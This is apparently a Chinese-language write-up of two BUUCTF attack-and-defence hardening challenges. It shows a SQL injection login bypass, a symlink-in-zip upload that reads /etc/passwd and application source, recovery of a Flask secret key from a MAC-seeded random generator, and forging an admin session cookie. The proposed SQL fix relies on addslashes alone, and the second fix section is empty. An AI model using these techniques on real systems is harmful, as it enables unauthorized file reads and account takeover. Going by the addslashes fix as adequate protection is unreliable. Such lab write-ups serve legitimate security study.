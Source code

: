 # BUUCTF awdp加固题


## [Ezsql]

![image-20230616161943315](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616161943315.png)

### 1.break

首先进入靶机web页面

![image-20230616162115816](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616162115816.png)

猜了弱口令都不对，尝试sql万能密码成功登录

```
用户名：admin' or 1=1#
密码：(填不填都行，填啥也行)
```

题目要求对页面存在的sql注入漏洞进行加固，即可取得flag

### 2.fix

根据题目给的地址端口以及用户名，ssh连接至靶机，进入/var/www/html/目录

![image-20230616162754875](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616162754875.png)

在此处新建一个phpinfo.php并写入语句

```
<?php phpinfo(); ?>
```

![image-20230616205637225](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616205637225.png)

访问phpinfo.php可以看到当前php版本为7.3.18

![image-20230616205717499](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616205717499.png)

php中防止sql注入的函数无非就那么几个：（我所知道的）

addslashes()

mysql_real_escape_string() 在php5.5中已经弃用，并在php7中被删除

mysql_escape_string() PHP 4 >= 4.0.3, PHP 5

在PHP7中，能用的只有addslashes()

故应在index.php中添加以下代码

```
$username = addslashes($username);
$password = addslashes($password);
```

添加在此处：

![image-20230616210551430](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616210551430.png)

随后进入check服务器/check目录进行check
![image-20230616210742088](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616210742088.png)

通过之后访问/flag得到flag字符串

## [babypython]

![image-20230616215912341](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616215912341.png)

### 1.break

进入靶机web页面，是个上传界面，经过尝试后发现只能上传zip文件，猜测是通过上传软链接的压缩包来读取相关信息（压缩一个软链接，类似于windows下的快捷方式，然后网站后台会解压读取该软链接指向的服务器上的文件，就能达到读取任意文件的效果。）
![image-20230616215852903](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616215852903.png)

在Linux环境下：

```
ln -s /etc/passwd passwd
zip -y passwd.zip passwd
```

生成了一个读取**/etc/passwd**的zip软链接**
随后上传我们得到的压缩包passwd.zip便可以在web页面看到回显的passwd文件信息

![image-20230616221815139](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616221815139.png)

再来读取下**app/uwsgi.ini**

> uWSGI是一个Web应用服务器，它具有应用服务器，代理，进程管理及应用监控等功能。它支持WSGI协议，同时它也支持自有的uWSGI协议
>
> 

![image-20230616222232148](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616222232148.png)

读一下**/app/main.py**

![image-20230616222907980](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616222907980.png)

最终找到源码文件：*/app/y0u_found_it/y0u_found_main.py*

![image-20230616232950895](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616232950895.png)

```
app.config[‘SECRET_KEY’] = str(random.random()*100)
random.seed(uuid.getnode())	设置随机数种子操作。
python random				生成的数是伪随机数
uuid.getnode()				这个函数可以获取网卡mac地址并转换成十进制数返回
```

通过读`/sys/class/net/eth0/address`文件得到mac地址，于是构造软链接、生成zip、上传看返回结果。

![image-20230616235529631](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20230616235529631.png)

然后就是把mac地址处理下，转换成二进制，然后设置成seed，生成一下KEY

```
import uuid
import random

mac = "c6:98:94:10:39:c6"
temp = mac.split(':')					#去掉":"
temp = [int(i,16) for i in temp]		#遍历mac
temp = [bin(i).replace('0b','').zfill(8) for i in temp]	#十六进制转二
temp = ''.join(temp)					#得到的值赋给temp
mac = int(temp,2)
random.seed(mac)						#将mac作为种子
randStr = str(random.random()*100)
print(randStr)
```

得到KEY:68.61339598479617

同时根据页面提示，只有admin才能获得flag，尝试通过伪造session来伪造admin身份用**flask-session-cookie-manager**伪造session

```
C:\Users\Scofield_Lee\Desktop\flask-session-cookie-manager>python flask_session_cookie_manager3.py encode -s '68.61339598479617' -t "{'username': 'admin'}"

eyJ1c2VybmFtZSI6ImFkbWluIn0.ZIyJeg.8rUFY72cFh1JQAALMZKX79N3j2w
```

得到session：`eyJ1c2VybmFtZSI6ImFkbWluIn0.ZIyJeg.8rUFY72cFh1JQAALMZKX79N3j2w`

### 2.fix

。。。。。

